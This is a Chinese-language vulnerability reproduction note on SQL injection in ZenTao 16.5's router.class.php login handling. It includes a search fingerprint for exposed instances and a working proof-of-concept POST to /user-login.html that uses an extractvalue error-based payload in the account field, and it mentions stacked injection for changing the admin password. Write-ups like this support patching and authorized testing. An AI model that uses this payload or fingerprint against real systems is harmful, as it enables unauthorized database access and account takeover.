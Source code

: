# 禅道 16.5 router.class.php SQL注入漏洞

## 漏洞描述

禅道 16.5 router.class.php 文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息，危害服务器安全

## 漏洞影响

<a-checkbox checked>禅道 16.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="易软天创-禅道系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651845742331-80eb4af4-3ecb-465a-b9f4-6b9f211bce3a.png)

`16.5 到 16.5.1 版本`更新了 `framework/base/router.class.php` 文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651970702476-e791e909-c6ad-4386-a9ed-bd0f93454d92.png)

`account参数`使用了`quote方法`进行过滤SQL语句

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651971046505-0dfe20a0-ed9b-4704-a233-fbf1967c0248.png)

可以看到这个方法主要是对字段加转义，所以可以推断 16.5 版本中存在SQL注入, 跟踪调试测试SQL注入

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651971584690-5654e6cd-48ca-4f5e-a552-7c6d6648f968.png)

验证POC如下, 其中同样存在堆叠注入，通过SQL语句可修改管理员密码等

```java
POST /user-login.html

account=admin%27+and+%28select+extractvalue%281%2Cconcat%280x7e%2C%28select+user%28%29%29%2C0x7e%29%29%29%23
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651845951752-a3b596a1-d07e-4283-9373-64f5d4c95f87.png)